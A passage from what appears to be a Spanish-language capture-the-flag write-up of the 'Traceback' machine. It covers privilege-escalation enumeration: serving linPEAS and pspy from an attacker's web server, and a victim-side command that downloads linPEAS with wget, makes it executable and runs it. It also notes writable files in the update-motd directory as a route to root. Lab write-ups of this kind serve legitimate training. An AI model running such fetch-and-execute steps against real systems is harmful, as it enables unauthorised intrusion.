 ## Privilege Escalation

### linPEAS Enumeration

El siguiente paso, será realizar una enumeración con una herramienta automatizada como `linPEAS`, que realiza un escaneo del equipo en busca de vectores para elevar nuestros privilegios.

El binario lo dispondremos en nuestro equipo local y lo compartiremos a través de un servidor web.

```bash
❯ ls -l linpeas.sh
.rwxrwxr-x kali kali 820 KB Wed Feb 19 08:41:54 2025  linpeas.sh

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

En este máquina, el binario de `cURL`no estaba instalado para realizar un `Fileless Attack` para ejecutar el script que compartimos sin necesidad de descargarlo en el equipo local.

Por dicho motivo, descargaremos el script que estamos compartiendo con `wget` le daremos permisos de ejecución y lo ejecutaremos para que realice la enumeración.

```bash
sysadmin@traceback:/tmp$ wget 10.10.14.2/linpeas.sh; chmod +x linpeas.sh; /tmp/linpeas.sh
```

Al finalizar la enumeración, comprobamos que el usuario actual dispone de privilegios de escritura sobre los siguientes archivos ubicados en `/etc/update.mot.d`, más adelante explicaremos qué son este tipo de archivos y cómo podemos abusar de estos para obtener acceso como `root`.

<figure><img src="../../.gitbook/assets/5384_vmware_ctvwSY4afh.png" alt=""><figcaption></figcaption></figure>

### Pspy64 Monitorization

Por otro lado, también hicimos una comprobación para verificar los procesos que se estaban ejecutando en el equipo víctima. Para ello, utilizaremos el binario de `pspy`el cual compartiremos desde nuestro equipo local mediante un servidor web.

```bash
❯ ls -l pspy64
.rwxr-xr-x kali kali 3.0 MB Tue Jan 17 22:09:52 2023  pspy64

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
